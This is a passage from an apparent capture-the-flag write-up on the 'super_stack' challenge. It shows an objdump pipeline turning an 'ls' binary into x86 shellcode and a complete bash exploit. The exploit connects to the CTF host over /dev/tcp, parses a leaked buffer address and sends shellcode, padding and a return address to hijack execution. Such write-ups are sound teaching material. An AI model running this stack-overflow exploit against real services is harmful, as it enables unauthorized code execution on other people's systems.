 ```
libpwnableharness32.so	super_stack	 super_stack.id2
ls_code			super_stack.i64  super_stack.nam
```
And this worked an gave me an `ls` of the directory. Now I converted it to shellcode with:
```
> objdump -d ./ls_code|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80"
```
I then updated the code in in my script. I also needed to adjust the amount of padding to account for the new instructions:
```bash
#!/bin/bash

# Open a socket to the server
exec 3<>/dev/tcp/ctf.hackucf.org/9005

# Get the address of the buffer
buf_addr=$(head -1 <&3)
echo Found: $buf_addr
buf_addr=$(echo $buf_addr | cut -d ':' -f 2 | cut -d 'x' -f 2)
echo Extracted: $buf_addr

# Convert to the format we need
# First check the address is 4 bytes long
addr_len=${#buf_addr}
while [ $addr_len -lt 8 ]
do
  buf_addr=0$buf_addr
  addr_len=${#buf_addr}
done

# Now get the bytes from last to first
hex_addr=
for i in $(seq 3 -1 0)
do
  pos=$((i*2))
  hex_addr="${hex_addr}\\x${buf_addr:$pos:2}"
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80')")
send_str=$send_str$(python -c "print('A'*75 + '$hex_addr')")

# Send the string
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
Now when I ran this code, it showed me the contents of the remote directory:
```
> ./hack_super_stack.sh 
Found: buf: 0xff8f14dc
Extracted: ff8f14dc
```